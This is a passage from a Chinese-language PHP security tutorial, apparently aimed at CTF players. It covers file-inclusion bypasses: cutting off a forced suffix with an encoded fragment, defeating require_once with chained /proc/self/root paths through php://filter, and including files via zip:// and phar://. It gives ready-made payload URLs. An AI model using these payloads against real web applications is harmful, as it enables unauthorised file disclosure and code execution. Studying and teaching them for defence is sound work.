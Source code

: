 #### fragment(#)

```
?file=http://remoteaddr/remoteinfo.txt%23
```

则包含的文件为http://remoteaddr/remoteinfo.txt#/test/test.php

问号后面的部分/test/test.php，也就是指定的后缀被当作fragment从而被绕过。注意需要把#进行url编码为%23。

### require_once绕过重复包含文件

原理：php源码分析 require_once 绕过不能重复包含文件的限制 （太长看不懂系列）

PHP最新版的小Trick， require_once包含的软链接层数较多时once的hash匹配会直接失效造成重复包含

/proc/self指向当前进程的/proc/pid/，/proc/self/root/是指向/的符号链接，想到这里，用伪协议配合多级符号链接的办法进行绕过。

```
root@ubuntu:/var/log/apache2# cd /proc/self/root/
root@ubuntu:/proc/self/root# ls
bin    dev   home            lib         media  proc  sbin  swapfile  tmp  vmlinuz
boot   etc   initrd.img      lib64       mnt    root  snap  sys       usr  vmlinuz.old
cdrom  flag  initrd.img.old  lost+found  opt    run   srv   test      var
root@ubuntu:/proc/self/root# cd /
root@ubuntu:/# ls
bin    dev   home            lib         media  proc  sbin  swapfile  tmp  vmlinuz
boot   etc   initrd.img      lib64       mnt    root  snap  sys       usr  vmlinuz.old
cdrom  flag  initrd.img.old  lost+found  opt    run   srv   test      var
```

可以看到这里/proc/self/root/和/指向的目录是一样的。

example:

```
?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

这样就可以绕过require_once()只能包含一次相同文件的限制。

### php://filter绕过exit

有时候后端会对我们输入的代码前面加上一段exit()函数，使得我们写入的代码无法执行，这时候如果可以使用php://filter伪协议对内容进行编码解码，即可绕过

### 利用协议

利用zip://和phar://，由于整个压缩包都是我们的可控参数，那么只需要知道他们的后缀，便可以自己构建。

zip://

- [访问参数] ?file=zip://D:\zip.jpg%23phpinfo
- [拼接后]  ?file=zip://D:\zip.jpg#phpinfo.txt

